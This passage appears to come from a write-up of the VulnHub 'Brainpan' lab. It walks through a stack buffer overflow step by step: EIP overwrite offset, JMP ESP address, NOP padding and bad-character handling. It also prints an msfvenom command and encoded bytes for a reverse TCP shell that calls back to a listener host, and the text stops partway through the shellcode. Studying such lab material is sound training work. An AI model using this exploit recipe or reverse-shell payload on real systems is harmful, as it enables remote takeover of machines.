 We can see that we have successfully overwritten `EIP`.

### Finding space for Shellcode

We will have to point `EIP` to our shellcode to get a shell. We can't simply write the shellcode to stack and write its address to `EIP` because the stack address will be different when the program is executed on a different machine. Instead we can write the shell code where `ESP` is pointing to. Then we can overwrite `EIP` to point to a `JMP ESP` instruction, which will then execute our shellcode. 


1. We can see that `ESP` actually points to the address after the overwritten `EIP`. 
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/brainpan/eip4.png){: .align-center}
2. Add the shellcode right after the `EIP` overwrite instruction.
3. Remember to add some padding before the shellcode. This is required to make sure that our shellcode doesn't get overwritten. There will be instructions in the shellcode to write to stack, so if our shellcode is right at the beginning of the stack, then our shellcode will be overwritten. (I learned this the hard way after wasting hours, trying to figure out why my shellcode wasn't working)

### Find `JMP ESP` instruction.
Look through the code to find a `JMP ESP` instruction. Since this is part of the code, the address of the instruction will be same irrespective of the machine it will be run on.
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/brainpan/esp.png){: .align-center}

There is a `JMP ESP` instruction at `311712F3`. Lets use this.

### Writing the shellcode
Alright, so now we have completed all the requirements for our shellcode. Lets start assembling the shellcode. I used [`python pwntools`](https://github.com/Gallopsled/pwntools) to make  the shellcoding easier.

1. Start with padding of 534 "A" to reach `EIP`
2. Write address of `JMP ESP`.
3. Add some `NOP` padding.
4. Write the shellcode.

Lets generate the shellcode first. The application is running on `wine32` on an Ubuntu system. We can either use a `windows` or `linux` shellcode. `Linux` shellcode will be easier for proceeding further. `msfvenom` can be used to generate the shellcode.

I forgot a super important step. We will have to find bad chars that can't be used in the shellcode. The application uses `strcmp` to copy our input, hence we can't have any null (\x00) character in our shellcode. There is a much more detailed method to find all bad chars. But I am feeling too lazy to do all that. Lets try it the easy way and hope it works.

#### Msfvenom
We will be using a reverse tcp shell. 

```bash
kali@kali:~$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.3 LPORT=4444 -a x86 --platform linux -b '\x00' -f python -v shellcode
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of python file: 550 bytes
shellcode =  b""
shellcode += b"\xb8\xcd\x11\x83\x39\xdb\xc0\xd9\x74\x24\xf4"
shellcode += b"\x5e\x33\xc9\xb1\x12\x83\xee\xfc\x31\x46\x0e"
shellcode += b"\x03\x8b\x1f\x61\xcc\x22\xfb\x92\xcc\x17\xb8"
shellcode += b"\x0f\x79\x95\xb7\x51\xcd\xff\x0a\x11\xbd\xa6"
shellcode += b"\x24\x2d\x0f\xd8\x0c\x2b\x76\xb0\x4e\x63\x89"
shellcode += b"\x43\x27\x76\x8a\x52\xeb\xff\x6b\xe4\x75\x50"
shellcode += b"\x3d\x57\xc9\x53\x34\xb6\xe0\xd4\x14\x50\x95"
```